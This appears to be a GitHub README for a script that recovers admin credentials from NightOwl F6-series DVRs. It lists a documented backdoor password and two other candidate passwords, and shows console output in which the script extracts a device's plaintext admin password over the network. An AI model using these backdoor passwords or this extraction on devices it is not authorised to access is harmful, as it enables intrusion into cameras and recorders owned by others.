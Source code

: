 # Recover NightOwl SVR Password
This script recovers the admin password for the NightOwl F6-series of devices, using the documented backdoor password ```2x8axc```. The backdoor password is useful for regaining read-only access to the device, but in order to reset the actual admin password, or make any system changes, you need a valid admin-level account. This script *should* get that for you, otherwise you can capture network packets while you visit the ```Users``` section to get the password.

<img width="759" alt="nightOwl" src="https://user-images.githubusercontent.com/1743650/198940392-7006054c-d45f-4fd4-a137-f12215b90370.png">

Other possible passwords include:

```
519070
101101
```

For more information, see: https://web.archive.org/web/20200810153724/https://support.nightowlsp.com/hc/en-us/articles/360009216554-Night-Owl-Legacy-Devices

## Good Recovery:
```console
% ./NightOwl_F6-get-admin-password.py -t 10.1.1.5

[INFO] ADMIN USER: admin
[INFO] ADMIN PASS: 4321abcd
```

## Verbose output:
```console
% ./NightOwl_F6-get-admin-password.py -t 10.1.1.5 -v

[VERBOSE] SYSTEM DATA: ['00-23-63-43-BB-98', 'F6-DVR8', 'SRV6.1.0-20150423', 'UPWXLHPP54ZMNBHY111A']
[VERBOSE] USER DATA:   ['4321abcd', 'admin', 'user1', 'user2', 'user3', 'user4', 'user5', '@', 'user6']

[INFO] ADMIN USER: admin
[INFO] ADMIN PASS: 4321abcd
```

## Failed Recovery:
```console
% ./NightOwl_F6-get-admin-password.py -t 10.1.1.10

ERROR: timed out connecting to 10.1.1.10
Check the IP and try again
```

